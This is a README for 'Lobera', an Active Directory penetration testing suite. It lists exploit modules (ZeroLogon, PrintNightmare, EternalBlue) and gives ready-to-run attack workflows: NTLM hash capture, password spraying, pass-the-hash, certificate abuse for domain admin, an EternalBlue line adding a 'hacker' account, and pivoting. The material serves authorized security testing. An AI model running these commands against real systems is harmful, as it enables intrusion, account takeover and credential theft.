






<p align="center">
  
</p>

<h1 align="center">Lobera</h1>

<p align="center">
  <strong>Modular Active Directory penetration testing suite</strong><br/>
  Built on <code>impacket</code> — understand the protocols, not just the tools.
</p>

<p align="center">
  <a href="README.es.md">🇪🇸 Español</a> · <a href="README.md">🇬🇧 English</a>
</p>

<p align="center">
  <a href="https://pypi.org/project/lobera/"></a>
  <a href="https://pypi.org/project/lobera/"></a>
  <a href="https://pypi.org/project/lobera/"></a>
  
  <a href="LICENSE"></a>
  
</p>

---

> ⚠️ **Use only on systems you own or for which you have explicit written authorization. Unauthorized use is illegal.**

---

## What is Lobera?

Lobera is a modular suite for enumerating and assessing Active Directory environments. Each protocol is implemented directly on top of `impacket` — no wrappers, no black magic. The goal is to understand which packet goes to which port, and why.

It is not a CrackMapExec clone. Each call maps to an actual protocol operation.

**230+ scripts** organized by protocol and family. Metasploit-style interactive CLI, autopwn scanner, findings database, and a suite of standalone tools.

---

## Installation

```bash
# From PyPI
pip install lobera

# From the repository (development mode)
git clone https://github.com/mitr0kerb/Lobera.git
cd Lobera
pip install -e .
```

**Requirements:** Python 3.10+

---

---

## Screenshots

### Main Interface


### SMB Modules


### Interactive Shell


### Vulnerability Assessment


### Hash Auditing


## Lobera Individual Tools


---

## Quick start

```bash
# List available scripts for a protocol
lobera smb

# Run a script
lobera smb --script=shares -t 10.10.10.5 -u username -p 'Password123!'

# Interactive shell (Metasploit-style)
lobera kerberos --interactive-shell

# Autopwn scanner
lobera ldap --scanner

# View saved findings
lobera db findings -t 10.10.10.5
```

```
╔══════════════════════════════════════════════╗
║              L O B E R A  v0.2.0             ║
║       Active Directory Penetration Testing   ║
╚══════════════════════════════════════════════╝

 Available protocols:
  smb · kerberos · ldap · rpc · winrm · ssh · ssl · http · https · ftp · mssql

 Tools:
  lobera-server · lobera-watch · lobera-spray · lobera-tunnel · lobera-check

smb-shell > load shares
smb-shell(shares) > set target 10.10.10.5
smb-shell(shares) > set user iker
smb-shell(shares) > run
[SMB] 10.10.10.5 — SYSVOL (READ) · NETLOGON (READ) · data (READ,WRITE)
```

---

## Screenshots

> Add the screenshots to `assets/screenshots/` using these filenames.

### Main interface


### SMB modules


### Interactive shell


### Vulnerability assessment


### Hash auditing


---

## The suite — standalone tools

| Tool | Description |
|---|---|
| `lobera-server` | Fake SMB server (NTLMv2 capture) + HTTP server for hosting payloads |
| `lobera-watch` | Real-time AD event monitoring over LDAP |
| `lobera-spray` | Multi-protocol password sprayer with account lockout safeguards |
| `lobera-tunnel` | SOCKS5 proxy and SSH port forwarding for pivoting |
| `lobera-check` | Known-vulnerability checker and exploit (MS17-010 / EternalBlue) |

<details>
<summary><b>lobera-server</b></summary>

```bash
# Capture NTLMv2 hashes — point clients to \\YOUR_IP\share
lobera-server smb --ip 0.0.0.0 --port 445 --output hashes.txt

# Serve payloads over HTTP
lobera-server http --ip 0.0.0.0 --port 8080 --dir /tmp/payloads

# Run both simultaneously
lobera-server both --smb-port 8445 --http-port 8080 --output hashes.txt
```
</details>

<details>
<summary><b>lobera-watch</b></summary>

```bash
# Monitor everything at 30-second intervals
lobera-watch -t 10.10.10.5 -u auditor -p 'P@ss' -d CORP.LOCAL --interval 30

# Monitor only privileged-group changes and write to a log
lobera-watch -t 10.10.10.5 -u auditor -p 'P@ss' -d CORP.LOCAL --filter groups --output events.log

# Pass-the-hash
lobera-watch -t 10.10.10.5 -u admin -H :aad3b435b51404eeaad3b435b51404ee -d CORP.LOCAL
```

Detects: new users · password changes · account lockouts · changes to DA/EA/Admins · new computers · modified GPOs · added SPNs · delegation changes.
</details>

<details>
<summary><b>lobera-spray</b></summary>

```bash
# SMB with a list of usernames and passwords
lobera-spray smb -t 10.10.10.5 -U users.txt -P passwords.txt -d CORP.LOCAL --delay 2

# Run against all supported protocols
lobera-spray all -t 10.10.10.5 -u admin -p 'Winter2024!' -d CORP.LOCAL
```

Protocols: `smb` · `winrm` · `ssh` · `ldap` · `all`. Account-lockout safeguards: `--delay`, `--jitter`, `--rounds`, `--pause`.
</details>

<details>
<summary><b>lobera-tunnel</b></summary>

```bash
# SOCKS5 proxy — use with proxychains
lobera-tunnel socks5 -t 10.10.10.5 -u user -p 'P@ss' --local-port 1080
proxychains nmap -sV 192.168.1.0/24

# Access internal RDP from your machine
lobera-tunnel forward -t PIVOT -u user -p 'P@ss' --local-port 13389 --remote-host 192.168.1.10 --remote-port 3389
```
</details>

<details>
<summary><b>lobera-check</b></summary>

```bash
# Check whether a host is vulnerable to EternalBlue
lobera-check ms17010 check -t 192.168.1.10

# Run a command as SYSTEM
lobera-check ms17010 exploit -t 192.168.1.10 --payload cmd --cmd "net user hacker P@ss1234 /add"
```
</details>

---

## Main CLI — three operating modes

### 1. Classic mode

```bash
# List all scripts for a protocol
lobera smb

# Run a script
lobera smb --script=shares -t 10.10.10.5 -u iker -p Pass123!

# Run an entire script family
lobera ldap --script-fam=enum -t 10.10.10.5 -d CORP.LOCAL -u iker -p Pass123!

# Preview without executing
lobera smb --script=shares -t 10.10.10.5 -u iker -p Pass123! --dry-run
```

### 2. Interactive shell

```bash
lobera smb --interactive-shell
lobera kerberos --interactive-shell
```

```
smb-shell > load shares
smb-shell(shares) > set target 10.10.10.5
smb-shell(shares) > set user iker
smb-shell(shares) > run
smb-shell(shares) > load gpp-password
smb-shell(shares) > run    ← reuses target/user
```

### 3. Autopwn scanner

```bash
lobera smb --scanner
lobera ldap --scanner
lobera kerberos --scanner
```

---

## Available scripts

<details>
<summary><b>SMB (445) — 25 scripts</b></summary>

| Family | Script | Description |
|---------|--------|-------------|
| enum | `null-session` | Null session — access without credentials |
| enum | `shares` | Enumerates shares and permissions |
| enum | `users` | Enumerates users |
| enum | `groups` | Enumerates groups |
| enum | `sessions` | Active sessions |
| enum | `loggedon` | Users with active logon sessions |
| enum | `os-info` | OS version and architecture |
| enum | `policy` | Password policy |
| enum | `signing` | Checks whether SMB signing is required |
| enum | `gpp-password` | Searches for passwords in GPP/SYSVOL |
| enum | `spider` | Crawls shares looking for interesting files |
| enum | `disks` | Enumerates system disks |
| enum | `auth` | Tests authentication with the supplied credentials |
| enum | `analysis` | General SMB host analysis |
| attack | `password-spray` | Password spraying against SMB |
| attack | `pass-the-ticket` | Authentication using a Kerberos .ccache |
| attack | `exec` | Remote command execution |
| attack | `sam-dump` | Dumps the SAM (requires admin privileges) |
| attack | `ntlm-relay` | Configures and runs NTLM relay |
| attack | `delegation-check` | Detects accounts with delegation |
| attack | `put` | Uploads a file to a share |
| exploit | `zerologon` | CVE-2020-1472 — ZeroLogon |
| exploit | `printnightmare` | CVE-2021-1675 — PrintNightmare |
| exploit | `petitpotam` | NTLM coercion via MS-EFSRPC |
| exploit | `ms08-067` | CVE-2008-4250 — MS08-067 |
| post | `reg-dump` | Dumps registry keys |
| post | `service-list` | Lists system services |
| post | `task-list` | Lists scheduled tasks |
</details>

<details>
<summary><b>Kerberos (88) — 20 scripts</b></summary>

| Family | Script | Description |
|---------|--------|-------------|
| enum | `user-enum` | Enumerates valid users (AS-REQ without pre-authentication) |
| enum | `spn-scan` | Enumerates registered SPNs |
| extraction | `asrep-roasting` | AS-REP Roasting — hashes for accounts without pre-authentication |
| extraction | `kerberoasting` | Kerberoasting — hashes for accounts with an SPN |
| tickets | `overpass-the-hash` | NT hash → TGT (.ccache) |
| tickets | `pass-the-ticket` | Authentication using a .ccache |
| tickets | `golden-ticket` | Golden Ticket (requires the krbtgt hash) |
| tickets | `silver-ticket` | Silver Ticket (requires a service account hash) |
| tickets | `diamond-ticket` | Diamond Ticket — stealthier Golden Ticket variant |
| tickets | `sapphire-ticket` | Sapphire Ticket — PKINIT-based |
| delegation | `unconstrained` | Detects unconstrained delegation |
| delegation | `constrained-s4u` | Detects constrained delegation + S4U2Proxy |
| delegation | `rbcd` | Resource-Based Constrained Delegation |
| credentials | `adcs` | Obtains credentials via ADCS/PKINIT |
| credentials | `pkinit` | Kerberos authentication using a certificate |
| credentials | `shadow-credentials` | Shadow Credentials via Kerberos |
| exploits | `ms14-068` | CVE-2014-6324 — Kerberos privilege escalation |
| exploits | `sam-spoofing` | sAMAccountName spoofing (noPac) |
| exploits | `reset-nightmare` | Kerberos password-reset abuse |
| exploits | `kerber-loss` | Exploitation of Kerberos encryption weaknesses |
</details>

<details>
<summary><b>LDAP (389/636) — 17 scripts</b></summary>

| Family | Script | Description |
|---------|--------|-------------|
| enum | `domain-info` | General domain information (functional level, password policy) |
| enum | `users` | Enumerates users and UAC flags |
| enum | `groups` | Enumerates groups and members |
| enum | `admins` | Enumerates privileged groups (DA, EA, BA...) |
| enum | `computers` | Enumerates domain computers |
| enum | `dacl-enum` | Finds dangerous ACEs (WriteDACL, GenericAll, GenericWrite...) |
| enum | `password-policy` | Domain password policy |
| enum | `kerberoast-targets` | Users with SPNs (Kerberoasting targets) |
| enum | `asreproast-targets` | Users without pre-authentication (AS-REP Roasting targets) |
| enum | `bloodhound-lite` | One-step enumeration + attack paths |
| adcs | `enum-templates` | Detects vulnerable ADCS templates (ESC1–ESC8) |
| adcs | `request-cert` | Requests a certificate with an arbitrary SAN (ESC1) → .pfx |
| attack | `acl-abuse` | ACL abuse (WriteDACL, GenericAll...) |
| attack | `bloodhound-export` | Exports data for BloodHound |
| exploits | `password-spray-ldap` | Password spraying against LDAP |
| exploits | `shadow-creds` | Writes msDS-KeyCredentialLink → TGT without changing the password |
| exploits | `ntlm-relay-setup` | Checks prerequisites and generates commands for NTLM relay |
</details>

<details>
<summary><b>RPC (135), WinRM (5985), SSH (22), SSL/TLS, HTTP/HTTPS, FTP (21), MSSQL (1433)</b></summary>

See the full table in [`docs/scripts.md`](docs/scripts.md) — 130+ additional scripts covering RPC, WinRM, SSH, SSL/TLS, HTTP, HTTPS, FTP, and MSSQL.
</details>

---

## Common attack workflows

<details>
<summary><b>Kerberoasting → offline cracking</b></summary>

```bash
lobera kerberos --script=kerberoasting -t 10.10.10.5 -u iker -p Pass123! -d CORP.LOCAL
hashcat -m 13100 hashes.txt rockyou.txt
```
</details>

<details>
<summary><b>ESC1 — Certificate as Administrator</b></summary>

```bash
# 1. Find a vulnerable template
lobera ldap --script=enum-templates -t 10.10.10.5 -u iker -p Pass123! -d CORP.LOCAL

# 2. Request a certificate as Administrator
lobera ldap --script=request-cert -t 10.10.10.5 -u iker -p Pass123! -d CORP.LOCAL \
  --template VulnTemplate --upn administrator@corp.local --ca CORP-CA

# 3. Obtain a TGT + NT hash
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.5
```
</details>

<details>
<summary><b>Coercion + NTLM Relay → ADCS (ESC8)</b></summary>

```bash
# Terminal 1: relay to ADCS
lobera ldap --script=ntlm-relay-setup -t 10.10.10.5 -d CORP.LOCAL \
  --mode adcs --ca CORP-CA --attacker-ip 10.10.14.1

# Terminal 2: coerce the DC
lobera-server smb --ip 0.0.0.0 --port 8445 --output hashes.txt

# → cert.pfx as DC$ → DCSync
certipy auth -pfx dc.pfx -dc-ip 10.10.10.5
```
</details>

<details>
<summary><b>Shadow Credentials → TGT without changing the password</b></summary>

```bash
lobera ldap --script=shadow-creds -t 10.10.10.5 -u iker -p Pass123! -d CORP.LOCAL \
  --target-user victim
certipy auth -pfx victim.pfx -dc-ip 10.10.10.5
# Clean up
lobera ldap --script=shadow-creds ... --target-user victim --clear
```
</details>

<details>
<summary><b>Pivoting from a compromised host</b></summary>

```bash
# SOCKS5 tunnel through the compromised host
lobera-tunnel socks5 -t PIVOT_IP -u user -p 'P@ss' --local-port 1080

# Access the internal network with proxychains
proxychains lobera ldap --script=users -t 192.168.1.5 -u iker -p Pass123! -d INT.LOCAL
proxychains lobera-spray smb -t 192.168.1.0/24 -u admin -p 'Pass!' -d INT.LOCAL
```
</details>

---

## Session database

All findings, credentials, and targets are automatically stored in `lobera.db`.

```bash
lobera db targets
lobera db findings -t 10.10.10.5
lobera db creds -t 10.10.10.5
lobera db creds -t 10.10.10.5 --show-secret
lobera db delete -t 10.10.10.5
```

---

## Shell completion

```bash
# Bash
source tools/completions/lobera_completion.bash

# Zsh
source tools/completions/lobera_completion.zsh
```

---

## Adding custom scripts

Create a file under `scripts/<protocol>/<family>/my_script.py` and Lobera will discover it automatically. See [`docs/como_añadir_scripts.md`](docs/como_añadir_scripts.md) for the full template.

---

## Platforms

| Platform | Status |
|---|---|
| Linux (Kali, Parrot, Ubuntu) | ✅ Primary |
| macOS (Apple Silicon / Intel) | ✅ Tested |
| Windows | ⚠️ Untested |

---

## License

MIT — see [LICENSE](LICENSE).

---

**mitr0kerb** · built as a hands-on deep dive into Active Directory protocols · 📧 mitr0kerb@gmail.com
